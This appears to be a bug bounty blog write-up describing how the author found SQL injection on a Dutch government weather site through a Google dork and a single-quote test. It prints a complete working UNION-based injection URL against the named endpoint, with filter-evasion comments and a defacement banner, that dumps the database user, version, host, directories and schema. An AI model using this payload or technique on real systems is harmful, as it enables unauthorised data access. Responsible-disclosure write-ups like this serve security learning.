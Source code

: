 ```yaml
---
title: "How I Found SQLI on a Dutch Government Website in 20 Minutes"
published: true
ayout: post
categories: [bounty]
tags: [bounty,SQL Injection] 
---
```



## Introduction

Assalamu Alaikum! This is Nasur Ullah. I’m currently an undergrad student and a passionate Webapp security learner from Pakistan.

This is my first write-up and I’ll be sharing how I found SQL Injection Vulnerability on a Dutch government website.



## Story


It was a sunny afternoon in 2020, and I was mindlessly scrolling through my Facebook feed when a particular post caught my eye. It was from my friend [Remonsec](https://twitter.com/remonsec) from Bangladesh Remonsec mentioned the possibility of earning swag from Dutch government Intrigued, I reached out to Remonsec to tell me about scope of Dutch government and the scope was Wildcard so i directly use google dork `php id= site:.knmi.nl`  I was able to uncover several endpoints associated with `KNMI.nl` One such endpoint caught my attention: `https://eca.knmi.nl/utils/stationdetail.php?stationid=168` To assess its susceptibility to SQL injection, I inserted a single quote (') into the URL, prompting a site response that concealed certain images. This confirmed the presence of a SQL injection vulnerability.


Taking a manual approach, I endeavored to exploit the vulnerability further. After a few minutes of investigation and trial, I successfully executed an exploit, affirming the presence of the SQL injection flaw. I promptly reported my findings to `Dutch government` providing detailed information about the vulnerability and the steps to reproduce it.

## Final URL: ```https://eca.knmi.nl/utils/stationdetail.php?stationid=-168%27%20Union%20Select%20concat(%27%3Ccenter%3E%27,%27%3Cimg%20src=%22https://preview.ibb.co/mzji7p/39094260_106012140345838_338859137104347136_n.jpg%22%20height=%22300px%22%20width=%22300px%22%27,%27%3C/center%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22black%22%20size=%225%%22%3EInjected%20by%20.//D4RK%20!Nj3C70R++%27,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22red%22%3EUser::%20%20%20%20%20%20%27,user/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EVersion::%20%20%20%20%27,%27%3C/font%3E%27,version/**_**/(),%27%3Cbr%3E%27,%27%3Cfont%20color=%22green%22%3EDatabase::%20%20%20%27,%27%3C/font%3E%27,database/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EHost::%20%20%20%27,@@HOSTNAME,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3EDirectory::%20%20%20%20%20%20%27,@@BASEDIR,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3ESymlink::%20%20%20%20%27,@@HAVE_SYMLINK,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3ESSL::%20%20%20%27,@@HAVE_OPENSSL,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3C/br%3E%27,(select(@x)/*!50000from*/(/*!50000select*/(@x:=0x00),(select(0)/*!From*/(/*!50000information_schema.columns*/)/*!50000where*/(table_schema=database/**_**/())and(0x00)in(@x:=/*!50000coNcat*/%20(@x,0x3c62723e,/*!50000table_name*/,0x203a3a20,/*!50000column_name*/))))x)),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+```

I quickly made a proof of concept and reported it to them A one days later, I received an email from the Dutch government, thanking me for my contribution to their cybersecurity efforts. As a token of appreciation, they sent me a personalized package filled with swag, a tangible recognition of my valuable contribution.

![Remonsec](/assets/sqli/Remonsec.PNG)


## Key Takeaways

This experience underscores the effectiveness of employing Google dorking techniques, especially when dealing with wildcard scopes, to unearth potential vulnerabilities within target domains. Additionally, it emphasizes the importance of responsible disclosure and collaboration with security organizations to enhance online security.
